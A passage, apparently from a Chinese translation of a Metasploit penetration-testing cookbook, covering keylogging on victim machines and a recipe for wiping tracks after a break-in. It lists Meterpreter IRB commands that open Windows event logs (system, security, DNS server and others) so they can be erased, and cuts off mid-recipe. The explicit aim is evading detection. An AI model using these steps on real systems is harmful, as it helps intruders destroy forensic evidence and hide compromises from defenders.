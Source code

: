 ### 更多

有一种不同的方式，你可以使用它们来收集受害者机器上的数据。这个秘籍中，我们使用了 Metasploit 和 Metasploit keyscan 来记录击键顺序，但是我们也可以使用 Wireshark 或 airodump-ng 来更简单地收集数据。

这里的关键是探索其它工具，便于你找到最喜欢的工具来完成你的目标。

## 7.5 清理踪迹

这个秘籍中，我们会使用 Metasploit 来清除我们的踪迹。在黑进主机之后执行清理是个非常重要的步骤，因为你不想在经历所有麻烦来获得访问权限之后还被人查水表。幸运的是，Metasploit 拥有一种方式来非常简单地清除我们的踪迹。

### 准备

为了执行这个秘籍，我们需要：

+ 内部网络或互联网的连接。

+ 使用 Metasploit 框架的具有漏洞的主机。

### 操作步骤

需要执行步骤如下所示：

1.  让我们开始使用  Meterpreter shell 来清理我们的踪迹。你需要使用 Metasploit  攻击某个主机来获得  Meterpreter shell。你可以使用第六章的秘籍之一，来通过 Metasploit 获得目标主机的访问。一旦你通过 Metasploit 和 Meterpreter shell 获得了受害者的访问权限，等待你的 Meterpreter 显示提示符。

    ![](img/7-5-1.jpg)
    
2.  下面，我们需要运行 IRB，以便进行日志移除操作。我们打开帮助文件：

    ```
    irb
    ```
    
    ![](img/7-5-2.jpg)
    
3.  下面，我们告诉 IRB 要移除哪个文件。下面是一个可用的选择：

    ```
    log = client.sys.eventlog.open('system') 
    log = client.sys.eventlog.open('security') 
    log = client.sys.eventlog.open('application') 
    log = client.sys.eventlog.open('directory service') 
    log = client.sys.eventlog.open('dns server') 
    log = client.sys.eventlog.open('file replication service')
    ```
    